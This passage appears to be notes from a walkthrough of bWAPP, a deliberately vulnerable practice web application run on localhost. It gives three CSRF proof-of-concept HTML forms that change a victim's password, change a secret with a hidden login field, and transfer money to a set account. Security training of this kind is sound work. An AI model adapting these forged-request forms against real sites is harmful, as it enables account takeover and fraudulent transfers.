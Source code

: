 
---
##### XML External Entity Attacks (XXE)

---

### // A8 - Corss-Site Request Forgery (CSRF) //

---
##### Cross-Site Request Forgery (Change Password)
~~~
<!DOCTYPE html>
<html>
<div id="main">
    <h1>CSRF (Change Password)</h1>
    <p>Change your password.</p>
    <form action="http://localhost:8083/bWAPP/csrf_1.php" method="GET">
        <p><label for="password_new">New password:</label><br>
        <input id="password_new" name="password_new" type="password"></p>

        <p><label for="password_conf">Re-type new password:</label><br>
        <input id="password_conf" name="password_conf" type="password"></p>  

        <button type="submit" name="action" value="change">Change</button>   
    </form>
</div>
</body></html>
~~~

---
##### Cross-Site Request Forgery (Change Secret)
~~~
<!DOCTYPE html>
<html>
<div id="main">  
<h1>CSRF (Change Secret)</h1>
<p>Change your secret.</p>
<form action="http://localhost:8083/bWAPP/csrf_3.php" method="POST">
    <p><label for="secret">New secret:</label><br>
    <input value="bug" id="secret" name="secret" type="text"></p>
    <div style="display:block; width:95%; border:2px solid red; margin:10px; font-size:2em">Hidden field [login] <input name="login" value="bee"></div>
    <button type="submit" name="action" value="change">Change</button>
</form>
</div>
</body></html>
~~~

---
##### Cross-Site Request Forgery (Transfer Amount)
~~~
<!DOCTYPE html>
<html><head>
<div id="main">   
<h1>CSRF (Transfer Amount)</h1>
<p>Amount on your account: <b> 100 CHF</b></p>
<form action="http://localhost:8083/bWAPP/csrf_2.php" method="GET">
    <p><label for="account">Account to transfer:</label><br>
    <input id="account" name="account" value="123-45678-90" type="text"></p>
    <p><label for="amount">Amount to transfer:</label><br>
    <input id="amount" name="amount" value="0" type="text"></p>
    <button type="submit" name="action" value="transfer">Transfer</button>   
</form>
</div>
    
~~~
